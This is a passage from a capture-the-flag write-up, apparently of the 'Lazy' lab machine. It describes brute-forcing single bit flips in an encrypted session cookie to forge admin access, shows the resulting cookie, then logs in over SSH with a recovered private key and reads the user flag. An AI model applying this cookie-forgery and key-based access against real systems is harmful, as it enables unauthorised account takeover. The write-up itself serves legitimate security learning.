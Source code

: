 
I created a helper function `flip_bit` which takes a byte and a position (0-7)
and returns that byte with the bit in that one position flipped. It relies on
the fact that the powers of two are words with a single bit on:

1| 0000 0001| 16| 0001 0000  
---|---|---|---  
2| 0000 0010| 32| 0010 0000  
4| 0000 0100| 64| 0100 0000  
8| 0000 1000| 128| 1000 0000  
  
I’ll start with the cookie for qdmin and decode it to get the binary
ciphertext. I will loop over each byte in the ciphertext, and for each byte
loop over each bit. Each time I will flip one bit in the ciphertext,
base64-encode it, and try a request with that modified cookie. If “admin” is
in the page, I will print the cookie and exit.

This runs very quickly and returns a cookie:

    
    
    root@kali# ./bitflipper.py 
    Flip byte 5, xor by 0x10 - new cookie: jQHLsfJdbqtkfIJHOMKjgJBdENqKUpEA
    

Setting that cookie in Firefox gives the logged in admin page on refresh.

### SSH Access

With the key and the username, I can connect over SSH:

    
    
    root@kali# ssh -i ~/keys/id_rsa_lazy_mitsos mitsos@10.10.10.18
    load pubkey "/root/keys/id_rsa_lazy_mitsos": invalid format
    The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
    ECDSA key fingerprint is SHA256:OJ5DTyZUGZXEpX4BKFNTApa88gR/+w5vcNathKIPcWE.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.18' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)
    
     * Documentation:  https://help.ubuntu.com/
    
      System information as of Tue Jul 28 17:35:47 EEST 2020
    
      System load: 0.0               Memory usage: 4%   Processes:       192
      Usage of /:  7.6% of 18.58GB   Swap usage:   0%   Users logged in: 0
    
      Graph this data and manage this system at:
        https://landscape.canonical.com/
    
    Last login: Thu Jan 18 10:29:40 2018
    mitsos@LazyClown:~$
    

I can get `user.txt`:

    
    
    mitsos@LazyClown:~$ cat user.txt
    d558e792************************
    
